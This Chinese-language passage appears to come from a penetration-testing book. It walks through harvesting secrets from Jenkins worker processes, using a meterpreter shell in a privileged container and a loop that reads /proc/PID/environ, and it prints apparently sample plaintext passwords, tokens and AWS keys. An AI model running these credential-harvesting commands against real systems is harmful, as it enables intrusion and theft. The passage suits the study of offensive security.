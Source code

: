 我们的新反向 Shell 正在一个特权容器中运行，该容器挂载了 Docker 套接字，并将整个主机文件系统挂载到*/hostOS* 1 目录中：

```
meterpreter > **ls /hostOS**
bin  boot  dev  etc  home  initrd.img  lib  lib64  lost+found  media  mnt
opt  proc  root  run...
```

让我们开始吧！

正如我们在第十章中所看到的，Jenkins 由于其调度能力，能够快速聚合大量的权限。它就像是技术世界中的雷曼兄弟——一个在无监管领域中饥渴的存在，受到鲁莽政策制定者的鼓励，且只需一次交易就能让整个经济崩溃。

在这种特殊情况下，这个隐喻中的“交易”恰好是 Jenkins 如何处理环境变量。当一个任务在一个工作节点上调度时，可以配置为仅拉取它运行所需的两三个密钥，或者加载所有可能的密钥作为环境变量。让我们来看看 Gretsch Politico 的管理员到底有多懒。

我们单独列出了在这台机器上由 Jenkins 任务启动的每一个进程：

```
shell> **ps -ed -o user,pid,cmd | grep "jenkins"**
jenkins   1012   /lib/systemd/systemd –user
jenkins   1013   sshd: jenkins@notty
Jenkins   1276   java -XX:MaxPermSize=256m -jar remoting.jar...
jenkins   30737  docker run --rm -i -p 9876:9876 -v /var/lib/...
`--snip--`
```

我们将这些进程的 PID 复制到一个文件中，并逐行遍历以获取它们的环境变量，环境变量便捷地存储在路径*/prod/$PID/environ*下：

```
shell> **ps -ed -o user,pid,cmd \**
**| grep "jenkins" \**
**| awk '{print $2}' \**
**> listpids.txt**
```

```
shell> **while read p; do \**
**cat /hostOS/proc/$p/environ >> results.txt; \**
**done <listpids.txt**
```

我们将收获上传到远程服务器，并进行一些小的格式调整，然后享受明文结果（见清单 12-3）。

```
root@Point1:~/#  **cat results.txt**
ghprbPullId = 1068
SANDBOX_PRIVATE_KEY_PATH = /var/lib/jenkins/sandbox
DBEXP_PROD_USER = pgsql_exp
DBEXP_PROD_PAS  = vDoMue8%12N97
METAMARKET_TOKEN = 1$4Xq3_rwn14gJKmkyn0Hho8p6peSZ2UGIvs...
DASHBOARD_PROD_PASSWORD = 4hXqulCghprbIU24745
SPARK_MASTER = 10.50.12.67
ActualCommitAuthorEmail = Elain.ghaber@gretschpolitico.com
BINTRAY_API_KEY = 557d459a1e9ac79a1da57$fbee88acdeacsq7S
GITHUB_API = 8e24ffcc0eeddee673ffa0ce5433ffcee7ace561
ECR_AWS_ID = AKIA76ZRK7X1QSRZ4H2P
ECR_AWS_ID = ZO5c0TQQ/5zNoEkRE99pdlnY6anhgz2s30GJ+zgb
`--snip--`
```
